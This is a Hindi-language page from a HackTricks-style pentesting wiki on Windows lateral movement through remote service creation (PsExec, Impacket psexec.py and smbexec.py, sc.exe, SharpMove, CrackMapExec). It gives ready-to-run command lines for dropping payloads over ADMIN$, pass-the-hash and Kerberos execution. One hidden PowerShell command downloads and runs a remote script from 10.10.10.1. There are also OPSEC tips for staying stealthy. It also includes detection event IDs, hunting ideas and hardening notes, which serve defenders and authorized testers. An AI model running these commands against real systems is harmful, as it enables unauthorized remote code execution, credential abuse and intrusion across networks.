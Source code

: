 # PsExec/Winexec/ScExec/SMBExec

{{#include ../../banners/hacktricks-training.md}}

## ये कैसे काम करते हैं

ये तकनीकें Windows Service Control Manager (SCM) का दूरस्थ रूप से SMB/RPC के माध्यम से दुरुपयोग करती हैं ताकि एक लक्षित होस्ट पर कमांड निष्पादित किया जा सके। सामान्य प्रवाह इस प्रकार है:

1. लक्षित पर प्रमाणीकरण करें और SMB (TCP/445) के माध्यम से ADMIN$ शेयर तक पहुँचें।
2. एक निष्पादन योग्य फ़ाइल कॉपी करें या एक LOLBAS कमांड लाइन निर्दिष्ट करें जिसे सेवा चलाएगी।
3. SCM (MS-SCMR over \PIPE\svcctl) के माध्यम से दूरस्थ रूप से एक सेवा बनाएं जो उस कमांड या बाइनरी की ओर इशारा करती है।
4. पेलोड को निष्पादित करने के लिए सेवा शुरू करें और वैकल्पिक रूप से stdin/stdout को एक नामित पाइप के माध्यम से कैप्चर करें।
5. सेवा को रोकें और साफ करें (सेवा और किसी भी ड्रॉप की गई बाइनरी को हटाएं)।

आवश्यकताएँ/पूर्व-आवश्यकताएँ:
- लक्षित पर स्थानीय व्यवस्थापक (SeCreateServicePrivilege) या लक्षित पर स्पष्ट सेवा निर्माण अधिकार।
- SMB (445) पहुँच योग्य और ADMIN$ शेयर उपलब्ध; होस्ट फ़ायरवॉल के माध्यम से दूरस्थ सेवा प्रबंधन की अनुमति।
- UAC दूरस्थ प्रतिबंध: स्थानीय खातों के साथ, टोकन फ़िल्टरिंग नेटवर्क पर व्यवस्थापक को रोक सकती है जब तक कि अंतर्निहित व्यवस्थापक या LocalAccountTokenFilterPolicy=1 का उपयोग न किया जाए।
- Kerberos बनाम NTLM: एक होस्टनाम/FQDN का उपयोग करने से Kerberos सक्षम होता है; IP द्वारा कनेक्ट करने पर अक्सर NTLM पर वापस लौटता है (और कठोर वातावरण में अवरुद्ध हो सकता है)।

### मैनुअल ScExec/WinExec via sc.exe

निम्नलिखित एक न्यूनतम सेवा-निर्माण दृष्टिकोण दिखाता है। सेवा छवि एक ड्रॉप की गई EXE या एक LOLBAS जैसे cmd.exe या powershell.exe हो सकती है।
```cmd
:: Execute a one-liner without dropping a binary
sc.exe \\TARGET create HTSvc binPath= "cmd.exe /c whoami > C:\\Windows\\Temp\\o.txt" start= demand
sc.exe \\TARGET start HTSvc
sc.exe \\TARGET delete HTSvc

:: Drop a payload to ADMIN$ and execute it (example path)
copy payload.exe \\TARGET\ADMIN$\Temp\payload.exe
sc.exe \\TARGET create HTSvc binPath= "C:\\Windows\\Temp\\payload.exe" start= demand
sc.exe \\TARGET start HTSvc
sc.exe \\TARGET delete HTSvc
```
Notes:
- एक गैर-सेवा EXE शुरू करते समय टाइमआउट त्रुटि की अपेक्षा करें; निष्पादन अभी भी होता है।
- अधिक OPSEC-फ्रेंडली रहने के लिए, फ़ाइल रहित कमांड (cmd /c, powershell -enc) का उपयोग करें या गिराए गए कलाकृतियों को हटा दें।

Find more detailed steps in: https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/

## Tooling and examples

### Sysinternals PsExec.exe

- क्लासिक प्रशासनिक उपकरण जो SMB का उपयोग करके ADMIN$ में PSEXESVC.exe को ड्रॉप करता है, एक अस्थायी सेवा स्थापित करता है (डिफ़ॉल्ट नाम PSEXESVC), और नामित पाइप के माध्यम से I/O को प्रॉक्सी करता है।
- उदाहरण उपयोग:
```cmd
:: Interactive SYSTEM shell on remote host
PsExec64.exe -accepteula \\HOST -s -i cmd.exe

:: Run a command as a specific domain user
PsExec64.exe -accepteula \\HOST -u DOMAIN\user -p 'Passw0rd!' cmd.exe /c whoami /all

:: Customize the service name for OPSEC (-r)
PsExec64.exe -accepteula \\HOST -r WinSvc$ -s cmd.exe /c ipconfig
```
- आप WebDAV के माध्यम से Sysinternals Live से सीधे लॉन्च कर सकते हैं:
```cmd
\\live.sysinternals.com\tools\PsExec64.exe -accepteula \\HOST -s cmd.exe /c whoami
```
OPSEC
- सेवा स्थापित/अनइंस्टॉल घटनाओं को छोड़ता है (सेवा का नाम अक्सर PSEXESVC होता है जब -r का उपयोग नहीं किया जाता) और निष्पादन के दौरान C:\Windows\PSEXESVC.exe बनाता है।

### Impacket psexec.py (PsExec-जैसा)

- एक अंतर्निहित RemCom-जैसी सेवा का उपयोग करता है। ADMIN$ के माध्यम से एक अस्थायी सेवा बाइनरी (आम तौर पर यादृच्छिक नाम) छोड़ता है, एक सेवा बनाता है (डिफ़ॉल्ट रूप से अक्सर RemComSvc), और एक नामित पाइप के माध्यम से I/O को प्रॉक्सी करता है।
```bash
# Password auth
psexec.py DOMAIN/user:Password@HOST cmd.exe

# Pass-the-Hash
psexec.py -hashes LMHASH:NTHASH DOMAIN/user@HOST cmd.exe

# Kerberos (use tickets in KRB5CCNAME)
psexec.py -k -no-pass -dc-ip 10.0.0.10 DOMAIN/user@host.domain.local cmd.exe

# Change service name and output encoding
psexec.py -service-name HTSvc -codec utf-8 DOMAIN/user:Password@HOST powershell -nop -w hidden -c "iwr http://10.10.10.1/a.ps1|iex"
```
Artifacts
- अस्थायी EXE C:\Windows\ में (यादृच्छिक 8 अक्षर)। सेवा का नाम डिफ़ॉल्ट रूप से RemComSvc होता है जब तक कि इसे ओवरराइड न किया जाए।

### Impacket smbexec.py (SMBExec)

- एक अस्थायी सेवा बनाता है जो cmd.exe को स्पॉन करता है और I/O के लिए एक नामित पाइप का उपयोग करता है। आमतौर पर एक पूर्ण EXE पेलोड को ड्रॉप करने से बचता है; कमांड निष्पादन अर्ध-इंटरैक्टिव होता है।
```bash
smbexec.py DOMAIN/user:Password@HOST
smbexec.py -hashes LMHASH:NTHASH DOMAIN/user@HOST
```
### SharpLateral और SharpMove

- [SharpLateral](https://github.com/mertdas/SharpLateral) (C#) कई लेटरल मूवमेंट विधियों को लागू करता है जिसमें सेवा-आधारित exec शामिल है।
```cmd
SharpLateral.exe redexec HOSTNAME C:\\Users\\Administrator\\Desktop\\malware.exe.exe malware.exe ServiceName
```
- [SharpMove](https://github.com/0xthirteen/SharpMove) में एक सेवा को संशोधित/निर्माण करने की क्षमता है ताकि दूरस्थ रूप से एक कमांड निष्पादित किया जा सके।
```cmd
SharpMove.exe action=modsvc computername=remote.host.local command="C:\windows\temp\payload.exe" amsi=true servicename=TestService
SharpMove.exe action=startservice computername=remote.host.local servicename=TestService
```
- आप विभिन्न बैकएंड (psexec/smbexec/wmiexec) के माध्यम से निष्पादित करने के लिए CrackMapExec का भी उपयोग कर सकते हैं:
```bash
cme smb HOST -u USER -p PASS -x "whoami" --exec-method psexec
cme smb HOST -u USER -H NTHASH -x "ipconfig /all" --exec-method smbexec
```
## OPSEC, detection and artifacts

PsExec-जैसी तकनीकों का उपयोग करते समय सामान्य होस्ट/नेटवर्क आर्टिफैक्ट:
- लक्षित पर सुरक्षा 4624 (लॉगऑन प्रकार 3) और 4672 (विशेष विशेषाधिकार) प्रशासनिक खाते के लिए।
- सुरक्षा 5140/5145 फ़ाइल साझा और फ़ाइल साझा विस्तृत घटनाएँ ADMIN$ पहुँच और सेवा बाइनरी (जैसे, PSEXESVC.exe या यादृच्छिक 8-चर .exe) के निर्माण/लेखन को दिखा रही हैं।
- लक्षित पर सुरक्षा 7045 सेवा स्थापना: सेवा नाम जैसे PSEXESVC, RemComSvc, या कस्टम (-r / -service-name)।
- Sysmon 1 (प्रक्रिया निर्माण) services.exe या सेवा छवि के लिए, 3 (नेटवर्क कनेक्ट), 11 (फ़ाइल निर्माण) C:\Windows\ में, 17/18 (पाइप बनाया/जुड़ा) पाइप के लिए जैसे \\.\pipe\psexesvc, \\.\pipe\remcom_*, या यादृच्छिक समकक्ष।
- Sysinternals EULA के लिए रजिस्ट्री आर्टिफैक्ट: HKCU\Software\Sysinternals\PsExec\EulaAccepted=0x1 ऑपरेटर होस्ट पर (यदि दबाया नहीं गया)।

शिकार विचार
- सेवा स्थापना पर अलर्ट जहाँ ImagePath में cmd.exe /c, powershell.exe, या TEMP स्थान शामिल हैं।
- प्रक्रिया निर्माण की तलाश करें जहाँ ParentImage C:\Windows\PSEXESVC.exe है या LOCAL SYSTEM के रूप में चलने वाली services.exe के बच्चे।
- -stdin/-stdout/-stderr के साथ समाप्त होने वाले नामित पाइप या प्रसिद्ध PsExec क्लोन पाइप नामों को फ्लैग करें।

## Troubleshooting common failures
- सेवाएँ बनाने पर पहुँच अस्वीकृत (5): वास्तव में स्थानीय व्यवस्थापक नहीं, स्थानीय खातों के लिए UAC दूरस्थ प्रतिबंध, या सेवा बाइनरी पथ पर EDR छेड़छाड़ सुरक्षा।
- नेटवर्क पथ नहीं मिला (53) या ADMIN$ से कनेक्ट नहीं कर सका: SMB/RPC को अवरुद्ध करने वाला फ़ायरवॉल या व्यवस्थापक साझा अक्षम।
- Kerberos विफल होता है लेकिन NTLM अवरुद्ध है: hostname/FQDN (IP नहीं) का उपयोग करके कनेक्ट करें, उचित SPNs सुनिश्चित करें, या Impacket का उपयोग करते समय टिकटों के साथ -k/-no-pass प्रदान करें।
- सेवा प्रारंभ समय समाप्त हो जाता है लेकिन पेलोड चला: यदि वास्तविक सेवा बाइनरी नहीं है तो अपेक्षित; आउटपुट को फ़ाइल में कैप्चर करें या लाइव I/O के लिए smbexec का उपयोग करें।

## Hardening notes (modern changes)
- Windows 11 24H2 और Windows Server 2025 डिफ़ॉल्ट रूप से आउटबाउंड (और Windows 11 इनबाउंड) कनेक्शनों के लिए SMB साइनिंग की आवश्यकता होती है। यह वैध क्रेड्स के साथ वैध PsExec उपयोग को बाधित नहीं करता है लेकिन असाइन किए गए SMB रिले दुरुपयोग को रोकता है और उन उपकरणों पर प्रभाव डाल सकता है जो साइनिंग का समर्थन नहीं करते हैं।
- नए SMB क्लाइंट NTLM अवरोधन (Windows 11 24H2/Server 2025) IP द्वारा कनेक्ट करते समय या गैर-Kerberos सर्वरों से कनेक्ट करते समय NTLM फॉल्बैक को रोक सकता है। मजबूत वातावरण में यह NTLM-आधारित PsExec/SMBExec को तोड़ देगा; Kerberos (hostname/FQDN) का उपयोग करें या यदि वैध रूप से आवश्यक हो तो अपवाद कॉन्फ़िगर करें।
- न्यूनतम विशेषाधिकार का सिद्धांत: स्थानीय व्यवस्थापक सदस्यता को कम करें, Just-in-Time/Just-Enough Admin को प्राथमिकता दें, LAPS को लागू करें, और 7045 सेवा स्थापना पर निगरानी/अलर्ट करें।

## See also

- WMI-आधारित दूरस्थ कार्यान्वयन (अक्सर अधिक फ़ाइल रहित):
{{#ref}}
lateral-movement/wmiexec.md
{{#endref}}

- WinRM-आधारित दूरस्थ कार्यान्वयन:
{{#ref}}
lateral-movement/winrm.md
{{#endref}}



## References

- PsExec - Sysinternals | Microsoft Learn: https://learn.microsoft.com/sysinternals/downloads/psexec
- SMB सुरक्षा हार्डनिंग Windows Server 2025 & Windows 11 (डिफ़ॉल्ट रूप से साइनिंग, NTLM अवरोधन): https://techcommunity.microsoft.com/blog/filecab/smb-security-hardening-in-windows-server-2025--windows-11/4226591
{{#include ../../banners/hacktricks-training.md}}
